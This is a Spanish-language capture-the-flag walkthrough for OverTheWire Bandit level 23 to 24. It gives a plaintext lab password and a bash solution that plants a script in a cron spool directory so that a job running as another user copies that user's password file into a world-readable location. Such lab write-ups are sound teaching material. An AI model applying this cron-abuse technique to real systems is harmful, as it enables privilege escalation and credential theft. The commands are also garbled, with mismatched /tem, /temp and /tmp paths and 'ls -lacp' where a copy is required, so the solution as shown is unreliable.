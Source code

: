 **Bandit **

**Objetivo**
Un programa se ejecuta automáticamente a intervalos regulares desde **cron** , el programador de trabajos basado en el tiempo. Busque en **/etc/cron.d/** la configuración y vea qué comando se está ejecutando.

**NOTA:** este nivel requiere que cree su propio primer script de shell. ¡Este es un paso muy grande y deberías estar orgulloso de ti mismo cuando superes este nivel!

**NOTA 2:** tenga en cuenta que su script de shell se elimina una vez que se ejecuta, por lo que es posible que desee conservar una copia...

**Datos de acceso**
server: **bandit.labs.overthewire.org** 
usuario: **bandit23**
contraseña: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
**Solucion**
```bash
ls -la /etc/cron.d
cat /etc/cron.d/cronjob_bandit24
cat /usr/bin/cronjob_bandit24.sh 

mkdir /tem/sandiaEs
cd /temp/sandiaEs
echo "cat /etc/bandit_pass/bandit24 > /tmp/sandiaES/password" > sandiaEs.sh
chmod 777 sandiaEs.sh
touch password 
chmod 666 password
ls -lacp sandiaEs.sh /var/spool/bandit24/foo
date
date
ls -la
cat password
```
**Notas adicionales** 

**Referencias** 